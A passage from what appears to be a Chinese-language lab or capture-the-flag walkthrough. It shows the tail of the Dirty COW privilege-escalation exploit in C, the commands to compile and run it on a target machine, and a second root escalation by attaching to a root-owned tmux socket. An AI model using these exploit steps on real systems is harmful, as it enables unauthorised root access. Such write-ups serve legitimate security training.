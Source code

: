 ```c
    }
    printf("ptrace %d\n",c);
  }
  else {
    pthread_create(&pth,
                   NULL,
                   madviseThread,
                   NULL);
    ptrace(PTRACE_TRACEME);
    kill(getpid(), SIGSTOP);
    pthread_join(pth,NULL);
  }

  printf("Done! Check %s to see if the new user was created.\n", filename);
  printf("You can log in with the username '%s' and the password '%s'.\n\n",
    user.username, plaintext_pw);
    printf("\nDON'T FORGET TO RESTORE! $ mv %s %s\n",
    backup_filename, filename);
  return 0;
}
```

我们将脏牛脚本下载到目标机器上
![在这里插入图片描述](https://img-blog.csdnimg.cn/7be0601d01a245d49b8a950a8e1a4dd1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后编译并运行这个脚本，新设置的密码为空

```bash
gcc -pthread 40389.c -o dirty -lcrypt
./dirty
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/cf62ba35819c4ce38f1c526d9914aeae.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/01e976057cfd436eaf24c2139dbc1cd0.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## tmux提权

除了脏牛，我们还发现以root用户运行的tmux程序
![在这里插入图片描述](https://img-blog.csdnimg.cn/ee02125d05bb444ca867c42b495afc29.png)
那么我们直接运行命令，就能够提权到root上了

```bash
/usr/bin/tmux -S /.devs/dev_sess
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/b4674887be004a4a8ba43204d0642eed.png)

